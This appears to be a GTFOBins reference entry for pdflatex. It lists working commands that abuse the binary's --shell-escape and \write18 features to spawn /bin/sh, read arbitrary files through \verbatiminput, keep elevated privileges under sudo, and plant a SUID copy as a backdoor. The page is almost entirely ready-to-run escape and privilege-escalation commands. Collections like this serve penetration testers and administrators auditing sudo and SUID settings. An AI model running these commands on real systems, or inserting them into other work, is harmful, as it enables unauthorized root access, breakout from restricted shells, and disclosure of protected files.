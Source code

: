 # GTFOBin: pdflatex

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
pdflatex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The read file will be part of the output.

```
pdflatex '\documentclass{article}\usepackage{verbatim}\begin{document}\verbatiminput{file_to_read}\end{document}'
pdftotext article.pdf -
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

The read file will be part of the output.

```
sudo pdflatex '\documentclass{article}\usepackage{verbatim}\begin{document}\verbatiminput{file_to_read}\end{document}'
pdftotext article.pdf -
```

```
sudo pdflatex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which pdflatex) .

./pdflatex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
```